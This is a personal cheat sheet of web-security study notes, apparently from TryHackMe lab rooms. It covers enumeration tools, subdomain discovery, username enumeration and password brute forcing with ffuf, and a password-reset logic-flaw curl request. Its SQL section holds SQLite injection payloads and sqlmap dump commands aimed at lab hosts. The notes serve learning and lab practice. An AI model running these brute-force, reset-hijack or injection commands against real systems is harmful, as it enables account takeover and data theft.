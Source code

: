 # R

* Remember for web/general/security

<hr class="sep-both">

## OWASP

* https://owasp.org/www-project-top-ten/
* Juiceshop
* https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
* https://github.com/OWASP/wstg
* https://wiki.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents
* https://github.com/OWASP/CheatSheetSeries
* https://www.zaproxy.org/
* https://github.com/OWASP/Amass

<hr class="sep-both">

## enum4linux

![Usage: Enumerating Information](https://img.shields.io/badge/usage-Enumerating%20Information-ffd700)

I don't know if there is still an `enum.exe`, because I can't find it, but you can use the tool [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) for enumerating information from Windows, and Samba hosts.

```bash
$ ./enum4linux.pl <options> <ip>
# -U : list of users
# -M : list of devices
# -S : list of shares
# -o : os data
# -i : printer data
# -v : verbose
```

<hr class="sep-both">

# Notes

* https://tryhackme.com/resources/blog/online-training-for-careers
* https://tryhackme.com/resources/blog/cyber-security-awareness-month
* There are websites on the Internet that allow you to check the reputation of an IP address to see whether it's malicious or suspicious.
  * AbuseIPDB
  * Cisco Talos Intelligence
* https://www.virustotal.com/gui/home/upload
* https://www.hybrid-analysis.com/
* https://otx.alienvault.com/ (An open-source threat tracking system)

<hr class="sep-both">

# Learn again

* netdiscover
* https://www.sans.org/cyberaces/
* https://crackstation.net/
* echo xxx name >> /etc/hosts 
* nmap xxx
  * Service Info: Host: Os:
* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2019-1388

<hr class="sep-both">

# Web

**Subdomain** enumeration is the process of finding valid subdomains for a domain, but why do we do this? We do this to expand our attack surface to try and discover more potential points of vulnerability.

* Brute Force
  * https://www.kali.org/tools/dnsrecon/ & https://github.com/darkoperator/dnsrecon
  * dnsrecon -t brt -d xxx.thm
* OSINT (Open-Source Intelligence)
  * https://crt.sh/
  * https://ui.ctsearch.entrust.com/ui/ctsearchui
  * -site:www.domain.com site:*.domain.com
  * Sublist3r https://github.com/aboul3la/Sublist3r
* Virtual Host
  * /etc/hosts file (or c:\windows\system32\drivers\etc\hosts file for Windows users)
  * Because web servers can host multiple websites from one server when a website is requested from a client, the server knows which website the client wants from the Host header.
  * `ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.126.102 -fs 2395`
  * The above command uses the -w switch to specify the wordlist we are going to use. The -H switch adds/edits a header (in this instance, the Host header), we have the FUZZ keyword in the space where a subdomain would normally go, and this is where we will try all the options from the wordlist.
  * Because the above command will always produce a valid result, we need to filter the output. We can do this by using the page size result with the -fs switch. Edit the below command replacing {size} with the most occurring size value
* Errors in web application
  * ex: signin username taken
    * ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.136.157/customers/signup -mr "username already exists"
    * -X argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. The -d argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. The -H argument is used for adding additional headers to the request. In this instance, we're setting the Content-Type to the webserver knows we are sending form data. The -u argument specifies the URL we are making the request to, and finally, the -mr argument is the text on the page we are looking for to validate we've found a valid username.
    * ffuf -w valid_usernames.txt:W1,/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.136.157/customers/login -fc 200
    * we have to specify our own FUZZ keyword. In this instance, we've chosen W1
    * -fc code: filter codes that are not code
* Logic Flaw
  * when someone (hacker or any) take a path different than intended
  * $_REQUEST=$_GET+$_POST. If both have a key, then post is used.
  * GET url with non-injectable parameter (verified)
  * POST URL in which you can override the value of the non-injectable parameter
  * curl 'http://10.10.136.157/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=hacker@hack.ca'
  * Common encoding types are base32 which converts binary data to the characters A-Z and 2-7, and base64 which converts using the characters a-z, A-Z, 0-9,+, / and the equals sign for padding.
  * https://crackstation.net/
  * https://www.base64encode.org/
  * Cookies (encoded/raw/ff)
  * https://tryhackme.com/room/authenticationbypass
  * https://tryhackme.com/room/subdomainenumeration

<hr class="sep-both">

# SQL

* Input Box String: usual
* Input Box Non-String: when there is no quotes: `'' OR 1=1-- -`
* If you have trouble via a form (client-side verification) intercept the request
* Look into the field name to guess column names
* Update
  * none',nickName='lol
* Version
  * (SELECT banner FROM v$version)
  * sqlite_version()
    * SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
    * ',nickName=(SELECT group_concat(tbl_name, '<br>') FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
    * ',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='
    * ',nickName=(SELECT group_concat(id || ":" || author || ":" || secret, '<br>') FROM secrets),email='
* https://www.kirsle.net/wizards/flask-session.cgi
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
* sqlmap -u http://10.10.55.189:5000/challenge3/login --data="username=admin&password=admin"
  --level=5 --risk=3 --dbms=sqlite --technique=b --dump
* sqlmap -u http://10.10.55.189:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump --threads 10
* https://tryhackme.com/room/sqlilab
* See tamper script